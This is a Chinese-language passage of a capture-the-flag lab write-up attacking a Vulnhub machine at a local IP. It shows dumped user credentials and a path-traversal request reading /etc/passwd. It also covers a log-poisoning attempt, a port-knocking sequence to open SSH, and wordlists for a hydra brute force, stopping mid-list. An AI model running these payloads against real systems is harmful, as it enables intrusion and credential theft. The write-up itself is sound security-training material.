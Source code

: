 ```
| scoots    | YR3BVxxxw87   |
| janitor   | Ilovepeepee   |
| janitor2  | Hawaii-Five-0 |
+-----------+---------------+
```

### 发现 LFI 漏洞，但没找到上传点
进入页面后，发现 File does not exist，猜测可能有 LFI
![[QQ_1724370934473.png]]

尝试读取 `/etc/passwd` ，成功
```
http://192.168.84.130/manage.php?file=../../../../../etc/passwd
```
![[QQ_1724372265760.png]]

用插件查看，发现是 Apache 服务器，联想到之前的 Apache 日志投毒，可以尝试包含日志
![[QQ_1724372365331.png]]
```
http://192.168.84.130/manage.php?file=../../../../../var/log/apache2/access.log
```
失败
### 查找攻略，knockd
在别人的 wp 中，ssh 的22端⼝状态是filtered 的，可能是运⾏了knockd服务，才导致ssh处于关闭状态 如字⾯意思，类似‘敲⻔’，只是这⾥敲的是‘端⼝’，⽽且需要按照顺序‘敲’端⼝。如果敲击规则匹 配，则可以让防⽕墙实时更改策略。从⽽达到开关防⽕墙的⽬的。使⽤者连接之前必须先依序 '敲 击' 指定端⼝ (port knocking)， `knockd` 才开放受到保护的端⼝。 knockd服务的配置⽂件为 `/etc/knockd.conf`
但是我从 vulnhub 上下载的虚拟机，没有出现这个问题。还是记下来，万一下次就能用了

发现需要依次敲击 7469 8475 9842，就能 `Openssh`
![[QQ_1724372541643.png]]

敲击
```sh
knock 192.168.84.130 7469 8475 9842
```

后来在 offsec 的 play 上遇到了 filtered 的情况。只需敲击就能显示为 open 状态。

### 利用 hydra ，爆破 `ssh`，找出三个用户密码
利用之前 sql 注入得到的用户名和密码，进行爆破
```
username.txt
marym
julied
fredf
barneyr
tomc
jerrym
wilmaf
bettyr
chandlerb
joeyt
rachelg
rossg
monicag
phoebeb
scoots
janitor
janitor2

passwd.txt
3kfs86sfd
468sfdfsd2
```